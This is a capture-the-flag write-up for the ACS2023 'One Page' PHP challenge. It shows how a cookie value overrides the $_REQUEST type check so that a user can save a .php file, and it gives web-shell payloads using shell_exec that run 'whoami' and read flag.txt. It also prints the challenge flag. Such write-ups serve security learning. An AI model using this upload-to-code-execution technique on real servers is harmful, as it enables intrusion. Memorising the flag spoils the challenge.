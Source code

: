 ```yaml
---
title: "One Page [Code Audit]"
categories: Acs2023
permalink: /ctfs/acs2023/onepage
---
```

PHP Local File Inclusion to Remote Code Execution.

## 📁 Challenge Description

> Create your own webpage.
>
> `http://192.168.0.52:40081`

Here are the challenge files that we need to audit.

```
challenge
  ├── docker-compose.yml
  └── service
      ├── Dockerfile
      ├── app
      │   ├── application
      │   │   ├── controllers
      │   │   │   ├── errorController.php
      │   │   │   ├── indexController.php
      │   │   │   ├── pageController.php
      │   │   │   └── userController.php
      │   │   ├── core
      │   │   │   ├── bootstrap.php
      │   │   │   └── core.php
      │   │   ├── models
      │   │   │   ├── fileModel.php
      │   │   │   └── userModel.php
      │   │   ├── utils
      │   │   │   ├── template.php
      │   │   │   └── util.php
      │   │   └── views
      │   │       ├── index.tpl
      │   │       ├── login.tpl
      │   │       ├── page.tpl
      │   │       ├── register.tpl
      │   │       └── textarea.tpl
      │   ├── index.php
      │   ├── public
      │   │   ├── sample.css
      │   │   ├── sample.html
      │   │   └── sample.js
      │   └── user
      └── flag.txt
```

## 🚩 Solution

We were given a simple web page that let users create a web page. 🤡 

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/37ab43ca-c905-48a9-ad4a-7a0b70892e0a)

After looking through the source code, the possible vulnerability that we found is located in the `application/controllers/pageController.php`.

```php
<?php

namespace Controllers;

class PageController {

    private $file;
    private $userData;
    private $util;
    public function __construct() {

        $this->util = new \utils\util();
        $this->file = new \models\fileModel();
        $this->userData = $_SESSION['userData'];
        if(!isset($this->userData)) $this->util->alertExit("Login Plz");
    }

    public function samplePage() {

        $this->file->copyFile(ROOT . 'public/sample.html', ROOT . 'user/' . $this->userData['uuid'] . '/' . $this->userData['uuid'] . '.html');
        $this->file->copyFile(ROOT . 'public/sample.js', ROOT . 'user/' . $this->userData['uuid'] . '/' . $this->userData['uuid'] . '.js');
        $this->file->copyFile(ROOT . 'public/sample.css', ROOT . 'user/' . $this->userData['uuid'] . '/' . $this->userData['uuid'] . '.css');
        $this->util->alertExit("Create Success");

    }

    public function viewPage() {

        $tpl = new \utils\template(VIEW . 'page.tpl');
        $tpl->render([
            "script" => './user/' . $this->userData['uuid'] . '/' . $this->userData['uuid'] . '.js',
            "css" => './user/' . $this->userData['uuid'] . '/' . $this->userData['uuid'] . '.css',
            "html" => $this->file->getFile(ROOT . 'user/' . $this->userData['uuid'] . '/' . $this->userData['uuid'] . '.html')
        ]);

    }

    public function edit() {

        if(!in_array($_REQUEST['type'], ['html', 'js', 'css'])) $this->util->alertExit("Invalid type");

        if($_SERVER['REQUEST_METHOD'] == 'POST'){

            $this->file->createFile(ROOT . 'user/' . $this->userData['uuid'] . '/' . $this->userData['uuid'] . '.' . $_POST['type'], $_POST['data']);
            $this->util->alertExit("Edit Success");
        }

        $tpl = new \utils\template(VIEW . 'textarea.tpl');
        $tpl->render(["type" => $_GET['type'], "data" => $this->file->getFile(ROOT . 'user/' . $this->userData['uuid'] . '/' . $this->userData['uuid'] . '.' . $_GET['type'])]);

    }

}
```

The `PageController` class consists of 3 functions, `samplePage()`, `viewPage()`, and `edit()`. We are only interested in the `edit()` function. 

```php
public function edit() {

    if(!in_array($_REQUEST['type'], ['html', 'js', 'css'])) $this->util->alertExit("Invalid type");

    if($_SERVER['REQUEST_METHOD'] == 'POST'){

        $this->file->createFile(ROOT . 'user/' . $this->userData['uuid'] . '/' . $this->userData['uuid'] . '.' . $_POST['type'], $_POST['data']);
        $this->util->alertExit("Edit Success");
    }

    $tpl = new \utils\template(VIEW . 'textarea.tpl');
    $tpl->render(["type" => $_GET['type'], "data" => $this->file->getFile(ROOT . 'user/' . $this->userData['uuid'] . '/' . $this->userData['uuid'] . '.' . $_GET['type'])]);

}
```

In the `edit()` function, we can edit anything and save it in each `html`, `css`, and `js` tab. The vulnerability is the `$_REQUEST` method. The `$_REQUEST` method is a super global variable in PHP and it is used to collect data. Another interesting fact about the `$_REQUEST` method is that it is an associative array that holds `$_GET`, `$_POST`, and `$_COOKIE`. 

We can get this information in Visual Studio Code when hover on the *`$_REQUEST`* method.

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/9a3fb65f-5d01-46b8-8e82-93c8d314ccfe)

What can we do with this? 

Well. The `edit()` function doesn't utilize the `$_COOKIE` method in the code. In other words, we can use `$_COOKIE` to bypass error checks.

The `$_GET` and `$_POST` methods are used in the code. Therefore, if we modify either of them, it will trigger an alert. However, if the `$_COOKIE` method holds the correct file type (`.html`, `.css`, or `.js`), it will bypass the check and doesn't violate anything in the code.

Based on the concept above, we may get **Local File Inclusion** to **Remote Code Execution**.

We first *Create Sample Page* and go to edit *HTML* after logging in. I used `<? php echo shell_exec("whoami"); ?>` as my payload to test execution.

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/cbe4ba03-ba7e-40ef-ab14-77a2d0db3f89)

Intercept the traffic with **Burp** when we save the HTML file. We wanted the server to save the file as `.php`.

From here, I modified it to `&type=php` in each line highlighted in the red boxes. Take note that it is necessary to add `;type=html` at the end of the *Cookie* header. We must keep it as `html` because the `$_REQUEST` method is checking the `$_COOKIE` method as well. As long as the server checks the `type=html` exists, it will be granted and ignore other modified fields.

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/5f958f07-2729-4e36-9b8e-e3b2e163d612)

At first, we were concerned about how to leak the user's UUID from the server, and it turns out that it can be found in the network inspector. The `.css` and `.js` files will be loaded every time the *View Page* is clicked. It leaked out the absolute path where the files were stored.

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/dccc3581-ca92-4ce4-81a4-9eca8fd0cf52)

This behavior can be found in the `viewPage()` function.

```php
public function viewPage() {

    $tpl = new \utils\template(VIEW . 'page.tpl');
    $tpl->render([
        "script" => './user/' . $this->userData['uuid'] . '/' . $this->userData['uuid'] . '.js',
        "css" => './user/' . $this->userData['uuid'] . '/' . $this->userData['uuid'] . '.css',
        "html" => $this->file->getFile(ROOT . 'user/' . $this->userData['uuid'] . '/' . $this->userData['uuid'] . '.html')
    ]);

}
```

Change the file extension to `.php` and we get the result `www-data`. The command inside the `.php` file is successfully executed from the server.

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/94624a88-4fc3-4e06-b813-59aa8f2a4b4c)

Great! Now we can repeat the exploit process once again but modify the PHP payload. I used `../../../../../flag.txt` as it is the file location based on the challenge folder and it works the same when exploited remotely.

```php
<? php echo shell_exec("cat ../../../../../flag.txt"); ?>
```

From here, we can get the flag.

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/44d11f3a-2ba5-416a-b9c4-62c6640a5dd9)

PS: After the competition, we know that this challenge should be a **PHAR Deserialization Bug**, but we are still glad we found an unintended way to solve it. 🙂

**FLAG**: `ACS{b5932a3742f164d061f67996e41097c9}`
